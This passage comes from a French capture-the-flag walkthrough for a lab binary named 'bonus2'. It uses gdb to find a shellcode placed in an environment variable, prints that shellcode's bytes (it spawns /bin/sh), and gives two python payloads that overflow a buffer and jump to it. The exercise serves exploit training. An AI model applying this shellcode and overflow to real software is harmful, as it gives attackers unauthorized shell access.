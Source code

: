 6. Dans un deuxième temps, on doit trouver l'adresse de ce `shellcode` afin de pouvoir l'injecter dans notre second argument/`payload`. Pour ce faire, on exécute le programme via `gdb` et lance les commandes suivantes :

    ```sh
    > gdb bonus2
    > (gdb) disas main
		Dump of assembler code for function main:
			[...]
			0x080485a6 <+125>:	call   0x8048380 <getenv@plt>
			[...]
		End of assembler dump.
	> (gdb) b *main+125
		Breakpoint 1 at 0x80485a6
	> (gdb) run test test
		Starting program: /home/user/bonus2/bonus2 test test
		Breakpoint 1, 0x080485a6 in main ()
	> (gdb) x/100s *((char**)environ)
		0xbffff893:	 "SHELLCODE=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\061\300Ph//shh/bin\211\343\211\301\211\302\260\v\315\200\061\300@\315\200"
		[...]
	```

	Ainsi, l'adresse `0xbffff893` est identifiée comme pointant vers le début de la chaîne de caractères stockée dans la variable d'environnement `SHELLCODE`. Cependant, pour garantir une redirection précise vers le début du `shellcode`, il est nécessaire d'ajuster cette adresse avec un offset de `18` (plus ou moins). Ainsi, l'adresse ajustée devient` 0xbffff8a5`, soit `\xa5\xf8\xff\xbf` en format `little-endian`. Cette manipulation permet de diriger le flux d'exécution vers le `shellcode`.

7. Maintenant que l'on possède l'adresse de la variable d'environnement `SHELLCODE` on peut passer à la création des `payloads`.

    Premier `payload` :

    ```sh
    python -c 'print "M" * 40'
    ```
    On a :
    - `'print "M" * 40'` : Une chaise de `40 caracteres` pour remplir le `buffer` via le `strncpy(buffer, argv[1], 40)`.

    Second `payload` :

    ```sh
    python -c 'print "\x90" * 18 + "\xa5\xf8\xff\xbf"'
    ```

    On a :
    - `"\x90" * 18` : `18 caractères` pour `buffer overflow` ;
    - `\xa5\xf8\xff\xbf` : L'adresse de `SHELLCODE` avec un décalage de `18` en format `little-endian`.

    On a noter que, avec moins de 18, ou plus de 18 caracteres, le programme ne fonctionne pas et `segfault`.
